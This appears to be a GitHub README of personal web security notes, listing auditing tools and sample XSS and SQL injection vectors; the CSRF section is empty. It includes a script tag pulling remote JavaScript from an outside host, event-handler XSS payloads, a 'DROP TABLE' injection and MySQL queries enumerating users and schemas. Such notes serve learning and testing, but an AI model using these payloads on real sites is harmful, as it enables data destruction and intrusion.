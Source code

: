 # Notes About Web Security
## Useful Auditing Tools:
`burpsuite` to capture and modify packets (purchase pro version if you like auto scannning :p)

`nmap ncat` to scan and test ports

`whois` and `theharvester` to collect OSINT data

`python` to create scripts

`sqlmap` to detect and exploit SQL Injection

and of course `F12(Developer tools)` in Browser(very useful!)
### #don't be a script kiddy!!


## Common Vulnerbilities

### XSS(Cross Site Scripting)
#### Description
Injects malicious code to a web page
#### Attacking Vectors
##### Basic
`<script src = www.example.com/xss.js></script>`
 
 or
 
 `<script>alert(1)</script>`
##### Advanced Vector
`<a id=x tabindex=1 onactivate=alert(1)></a>`

`<body onafterprint=alert(1)>`

`<a id=x tabindex=1 onbeforeactivate=alert(1)></a>`

`<audio src/onerror=alert(1)>`

`<body onpageshow=alert(1)>`

`<body onresize=alert(1)`

and more on [portswigger.net](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
### SQL Injection
#### Description
Inject SQL syntax to a vulnerble server
#### Attacking Vectors
##### Comment the rest of the query
`DROP TABLE1; --`

or

`DROP TABLE1; #`
##### Login bypass
use `'` and `--` to close brackets and comment the queries
##### Common Vectors(MySQL for example)
`SELECT @@version`

`SELECT user();`

`SELECT user FROM mysql.user;`

`SELECT distinct(db) FROM mysql.db `

`SELECT schema_name FROM information_schema.schemata; (for MySQL >= v5.0)`

`SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != ‘mysql’ AND table_schema != ‘information_schema’`

`SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != ‘mysql’ AND table_schema != ‘information_schema’`

`SELECT table_schema, table_name FROM information_schema.columns WHERE column_name = ‘username’`
### CSRF (Cross-Site-Request-Forgery)


